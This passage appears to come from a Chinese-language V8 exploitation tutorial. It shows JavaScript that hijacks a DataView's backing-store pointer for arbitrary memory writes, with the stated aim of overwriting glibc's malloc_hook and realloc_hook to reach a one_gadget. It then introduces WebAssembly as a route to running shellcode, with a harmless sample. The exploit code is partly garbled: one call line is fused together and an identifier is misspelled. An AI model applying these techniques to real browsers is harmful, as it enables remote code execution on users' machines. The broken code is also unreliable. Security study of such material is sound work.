 ```assembly
var data_buf = new ArrayBuffer(16);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;

function write64_dataview_double(addr, data1, data2)
{
    write64(buf_backing_store_addr, addr);
    data_view.setFloat64(0, i2f(data1), true);
    data_view.setFloat64(8, i2f(data2), true);
}
write64_dataview_doublelibc_realloc_hook, data_to_realloc_hook, data_to_mallo_hook);
```

这样后续就可以连续触发malloc_hook和realloc_hook了。

当然如果这样调整栈空间后，调用one_gadget时的栈空间布局还不满足要求的话，就可以尝试在触发漏洞之前先调用一些无用的js代码，动态改变执行one_gadget时的栈空间布局，后续执行one_gadget时或许就能满足栈空间要求了。

## 浏览器shellcode新姿势：wasm

简单来说，wasm就是可以让JavaScript直接执行高级语言生成的机器码的一种技术。

### 1. Wasm简单用法

有高人已经做出来一个WasmFiddle网站，可以在线将C语言直接转换为wasm并生成JS配套调用代码。首先我们来试用一下在线编译，感受感受wasm的魅力。

首先进入网站https://wasdk.github.io/WasmFiddle/，可以看到左侧是c语言代码，右侧是JS调用代码，左下角可以选择c语言要转换成的wasm格式，包括Text格式、Code Buffer等，右下角可以看到js调用wasm的最终调用效果。

左下角选择Code Buffer，然后点击最上方的Build按钮，就可以看到左下角生成了我们需要的wasm代码。点击Run，右下角就可以看到js调用输出了C语言返回的数字42。

我们直接将CodeBuffer中生成的wasm和右上角的js交互代码拷贝到本地的test.js，进行测试：

```assembly
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;

var d = f();
console.log("[*] return from wasm: " + d);
%SystemBreak();
```

gdb中调试v8可以得到如下输出：

```assembly
pwndbg> r
[*] return from wasm: 42
```
